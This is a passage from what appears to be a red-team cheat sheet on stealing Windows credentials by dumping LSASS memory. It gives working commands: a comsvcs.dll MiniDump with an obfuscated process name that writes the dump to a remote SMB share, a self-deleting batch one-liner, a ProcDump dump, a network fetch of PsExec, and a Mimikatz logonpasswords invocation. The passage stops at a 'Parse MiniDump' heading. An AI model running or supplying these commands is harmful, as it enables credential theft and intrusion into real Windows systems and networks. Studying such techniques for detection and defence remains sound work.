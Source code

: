 Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```



### ProcDump

- [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
- [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)
- [https://live.sysinternals.com/](https://live.sysinternals.com/)

```
PS > wget http://live.sysinternals.com/PsExec64.exe -o psexec.exe
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
```


#### Process Argument Spoofing

- [https://xre0us.io/posts/multidump/](https://xre0us.io/posts/multidump/)
- [https://github.com/Xre0uS/MultiDump/tree/main](https://github.com/Xre0uS/MultiDump/tree/main)



### Mimikatz

- [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
- [https://redteamrecipe.com/64-Methods-For-Execute-Mimikatz/](https://redteamrecipe.com/64-Methods-For-Execute-Mimikatz/)

```
PS > .\mimikatz.exe "privilege::debug" "token::elevate" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```

{% hint style="warning" %}
In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248)
{% endhint %}

Parse MiniDump:
